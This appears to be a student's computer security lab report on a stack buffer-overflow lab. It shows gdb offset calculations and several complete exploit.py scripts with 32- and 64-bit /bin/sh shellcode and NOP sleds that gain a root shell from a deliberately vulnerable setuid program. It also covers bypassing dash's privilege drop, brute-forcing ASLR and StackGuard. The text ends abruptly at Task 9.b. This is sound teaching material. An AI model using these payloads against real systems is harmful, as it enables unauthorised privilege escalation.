Author: Sai Kiran Belana
Course: Computer Security
### Task 1: Invoking the Shellcode

When ran `make`, it executes the the `/bin/zsh` shell with current user as `seed`


Executing with `make setuid`, gives me access to `/bin/sh` as root. 




Other Observations:

**Default -  Running with `execstack`**
With `execstack` flag enabled, I can observe that the code in stack can be executable and has given more shell access.

**Disabling `execstack`**:


Upon removing the execstack option, I can see the code in stack cannot be executed and it goes into segmentation fault. 


I tried using `gdb` to read the segmentation fault core file and noticed the code in stack isn't executable since the stack is not allowed to do so because of memory protection. 

So, if I enable the `execstack` flag in Makefile, it will be given access to execute in stack. 

---


### Task 2: Understanding the Vulnerable Program


I created an empty `badfile` file by running 

```bash
touch badfile
```
I have run the compilation steps given in the document. 

```bash
gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c

# making root to own the program
sudo chown root stack 

# giving rwx to current user 
sudo chmod 4755 stack
```



since I created an empty `badfile`, the execution just reads that empty file and tries to copy using `strcpy` to `buffer`

Whatever the size of `BUF_SIZE` is, all the `stack*` executables are successful and returns properly due to the input size is empty(0).


---

### Task 3: Launching Attack on 32-bit Program. 

Running the given `exploit.py` file to exploit the vulnerability in out `stack.c` program. 

After compiling, I ran the `makefile`. Now debugging the `stack-L1-dbg` file.

Added a break point for function `bof`
```bash
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
```

Run the program and checked the values of `ebp` and `buffer`
```bash
gdb-peda$ run
gdb-peda$ next
Legend: code, data, rodata, value
20	    strcpy(buffer, str);  
```

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb28
```

```bash
gdb-peda$ p &buffer
$1 = (char (*)[100]) 0xffffcabc
```
```bash
gdb-peda$ p/d 0xffffcb28 - 0xffffcabc
$3 = 108

```

I could see the diff b/w ebp and buffer is about 108 bytes.



from this observation we can conclude the offset is 108 + 4 = 112. We can use this value in the `exploit.py` script as offset


```python
#!/usr/bin/python3
import sys

shellcode = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 400               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb28+200         # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

i have started at 400th byte in the payload and filled the shellcode with the value available in `call_shellcode.c` file.  

I took the `ebp` value and tried to get to the NOP section to access my shellcode.  Also added the calculated offset.

After that, I ran the exploit.py to fill the badfile to have shellcode in it. 



We can observe that I gained root access when running the `stack-L1`.


---


### Task 4

Similar to Task 3, I ran `makefile` to generate `stack-l2-dbg` for debugging with `gdb`

added break at `bof`



buffer value:

```bash
gdb-peda$ p &buffer
$1 = (char (*)[160]) 0xffffca80
```

- in `exploit.py`, added the shellcode for 32 bit.
- instead of adding the shellcode at the start of bad file, I'll add at the end of badfile.
- I need to jump high enough to go inside NOP. So return address would be beginning of buffer + 300 (trying this)
- Offset is also not needed.
- Need to put return the address in many places to spray the entire address with our return address.

```python
#!/usr/bin/python3
import sys

shellcode = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
# start = 400    #not needed for task 4           # Change this number 
content[517 - len(shellcode): ] = shellcode # adding shellcode at end of badfile

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca80 + 300       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
# offset = 112              # Change this number 


L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

# spray the entire address with our return address.
for offset in range(50): # since b/w 100 and 200, I divide 200/4  = 50 to for range to add return address entirely
	content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```




Now, I got the rootshell access.

---

### Task 5




*rbp and buffer values in debug mode:*
```bash
Breakpoint 1, bof (str=0x7fffffffe0d0 "") at stack.c:16
16	{
gdb-peda$ p $rbp
$1 = (void *) 0x7fffffffe160
```

```bash
gdb-peda$ p &buffer
$2 = (char (*)[200]) 0x7fffffffdc80
```




The difference b/w buffer starting point and `rbp` is 208. So, offset would be +8 for it which would be 216. 

```python
#!/usr/bin/python3
import sys

shellcode = (
 "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode # adding shellcode at end of badfile

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x7fffffffe160 + 500       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
offset = 208+8 #(208 as diff and add 8 bytes since its 64 bit achine)              # Change this number

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
*tried different combinations and jumped to 500 and tried it.*



after running the code, I was able to gain root access using the 64 bit method.


---

### Task 6: Launching Attack on 64-bit Program





*`rbp` and `buffer` values are:*

```bash
gdb-peda$ p $rbp
$1 = (void *) 0x7fffffffdd50
gdb-peda$ p &buffer
$2 = (char (*)[10]) 0x7fffffffdd46
```



offset is `10+8 = 18` for 64 bit.


```python
#!/usr/bin/python3
import sys

shellcode = (
 "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode # adding shellcode at end of badfile

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x7fffffffdd46 + 1400       #I need to jump high enough to go inside NOP. Beginning of buffer + 300
offset = 18 #(208 as diff and add 8 bytes since its 64 bit achine)              # Change this number

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

To gain root access, I was trying to jump from  buffer as high as possible to get into root shell and it succeeded. 



---

### Tasks 7: Defeating dash’s Countermeasure


My steps is to create a symlink for `/bin/sh` target `/bin/bash`
```bash
sudo ln -sf /bin/dash /bin/sh
```

Running `make setuid` 




I can see I get normal user access instead of root. 




*Coming to `code` and checking the addresses of ebp and buffer and calculating the offset*
```bash
gdb-peda$ p $rbp
$1 = void
gdb-peda$ p $ebp
$2 = (void *) 0xffffcee8
gdb-peda$ p &buffer
$3 = (char (*)[100]) 0xffffce7c
```

buffer address: `0xffffce7c`

```bash
gdb-peda$ p/d  0xffffcee8 - 0xffffce7c
$5 = 108
```

With these values, I have modified `exploit.py` as follows and came to a threshold value where I can jump into root to gain its access.

```bash
#!/usr/bin/python3
import sys

# Updated 32-bit shellcode with setuid(0)

shellcode = (
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
    "\x0b\xcd\x80"
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffce7c+300         # Change this number
offset = 112              # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```


Result: we can see, now, I'm able to gain root access. 


---

### Task 8: Defeating Address Randomization


Ran the code `brute-force.sh`


The brute-force worked while running just for 45400 time which took hardly 44 seconds. I understand why it took so long.


So even when we  randomize virtual address space, when we can just bruteforce it with enough computational power, we can still gain root control. (Interesting). I couldn't run for 64 bit machine since it takes quit long(not required as per project spec because the entropy is much larger).

*result:*


---

### Tasks 9: Experimenting with Other Countermeasures

**Task 9.a: Turn on the StackGuard Protection**

Turned off address randomization
```bash
03/14/25]seed@VM:~/.../code$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
```

Removed the flag `-fno-stack-protector` and recompiled




result:



The attack is just terminated because of stackGuard protection enabled by default in newer ubuntu versions and gcc above 4.3

I'm using `gcc 9.3`

```bash
[03/14/25]seed@VM:~/.../code$ gcc --version
gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
Copyright (C) 2019 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```


---

**Task 9.b: Turn on the Non-executable Stack Protection**

